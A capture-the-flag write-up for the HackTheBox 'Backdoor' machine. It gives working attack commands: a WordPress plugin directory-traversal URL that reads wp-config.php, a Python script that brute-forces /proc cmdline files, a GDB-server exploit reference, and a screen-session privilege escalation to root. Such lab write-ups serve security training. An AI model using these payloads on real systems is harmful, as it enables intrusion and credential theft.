









# [Backdoor](https://app.hackthebox.com/machines/backdoor)

```bash
nmap -p- --min-rate 10000 10.10.11.125 -Pn
```



After knowing (22,80,1337) ports are open, let's do greater nmap scan.
```bash
nmap -A -sC -sV -p22,80,1337 10.10.11.125 -Pn 
```



While enumeration of application (port 80), I see that it is powered by `Wordpress`.


So, I can look at plugins of wordpress site.




I see that this application is vulnerable to [Directory Traversal](https://www.exploit-db.com/exploits/39575?source=post_page-----9340ac3709d6--------------------------------)


I just the browse the page .

```bash
http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```



But these credentials doesn't work anywhere.

I want to see what service running for port (1337), that's why I wrote this Python script.

```python
#!/usr/bin/python3
import requests, os
from concurrent.futures import ThreadPoolExecutor

url = "http://10.10.11.125"
os.system('seq 1 9999 > ids')
cont = open('ids','r').readlines()

def b(f):
	r = requests.get(url + '/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../../proc/' + f.strip() + '/cmdline')
	print(r.text.split('../')[24].split('cmdline')[1].split('<script>')[0])
with ThreadPoolExecutor(max_workers=50) as ex:
	ex.map(b,cont)
```

Then execute this script as below and read data.

```bash
python3 script.py > result
cat result | uniq
```



I see that GDB server is running and find  [article](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit%2Fmulti%2Fgdb%2Fgdb_server_exec&source=post_page-----9340ac3709d6--------------------------------) to exploit GDB server


I got shell.




Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

user.txt




For privilege escalation, I just search SUID files via below command.

```bash
find / -perm -u=s -type f 2>/dev/null
```




I just take `screen` binary from here.

```bash
export TERM=xterm
export SHELL=bash
screen -x root/root
```

root.txt

